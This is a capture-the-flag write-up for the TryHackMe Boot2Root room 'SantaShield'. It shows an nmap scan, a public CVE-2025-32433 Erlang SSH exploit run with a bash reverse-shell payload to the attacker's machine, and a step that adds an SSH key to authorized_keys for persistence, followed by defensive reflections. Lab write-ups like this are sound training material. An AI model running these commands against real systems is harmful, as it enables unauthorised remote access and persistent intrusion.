

+++
title = 'SantaShield'
categories = ['Boot2Root']
date = "2025-12-01T20:26:31+01:00"
scrollToTop = true
+++

## Challenge Name:

SantaShield

## Category:

Boot2Root

## Challenge Description:

Vigtignissen fører sig frem med sit nye nissekonsulenthus SantaShield Security, men mon han har nisset i det, eller er der mon styr på sagerne?

https://tryhackme.com/room/santashieldsecurity2o25

## Approach

- Started out with a classic scan for open ports and vulnerabilities, which revealed 3 ports
```bash
└─$ sudo nmap -sC -sV -O -p- cybershield.nc3
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 46c6f8c2ce1e86b98d0ee2c5a51697a0 (ECDSA)
|_  256 a48713861f6cc22dbc6bdb4c83a57aa7 (ED25519)
80/tcp   open  http    Apache httpd 2.4.65 ((Debian))
|_http-title: Security Company Blog | Software Vulnerability Awareness
|_http-server-header: Apache/2.4.65 (Debian)
2222/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Erlang/5.1.4.7
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- Port 2222 immediately jumps out as a non-typical port!
- For good measure we visit the homepage, meanwhile exploit searching for the Erlang service

- After reading up on the service and potential exploits, I identified this [repository with a PoC](https://github.com/omer-efe-curkus/CVE-2025-32433-Erlang-OTP-SSH-RCE-PoC)
- Setup a Netcat listener on my attacking machine
- And executed the PoC, which established a reverse shell to my machine!
```python
python3 cve-2025-32433.py cybershield.nc3 -p 2222 -c 'bash -i >& /dev/tcp/{MY-IP}/1337 0>&1'

user@debian:/opt/ssh$ whoami
whoami
user
```

- The flag was in the user home folder

## Flag

```text
NC3{flag1:m3rRy_pwN1N9_Th4t_Cv3}
```

## Reflections and Learnings
- Recon matters: The atypical `2222/tcp` port stood out early and guided focus toward non-standard services. Taking time to fingerprint protocols (here, Erlang SSH) quickly narrowed the exploit surface.
- Read before running: Verifying PoC details and version applicability avoided blind execution. Mapping service banners to CVE advisories saved time and reduced noise.
- Strengthen foothold: The inital reverse shell on port 2222 was a poor shell experience, so I immediately added my id_rsa.pub to the ~/.ssh/authorized_keys in order to be able to ssh into the box!
- Defensive takeaways: Exposing administrative or exotic services on non-standard ports is not protection. Version management, reducing attack surface, and strict SSH configuration would have mitigated this.
- Next improvements: Automate detection for Erlang/OTP SSH fingerprints in recon tooling, add a quick checklist for PoC validation, and script a safer payload wrapper to standardize reverse shell handling.
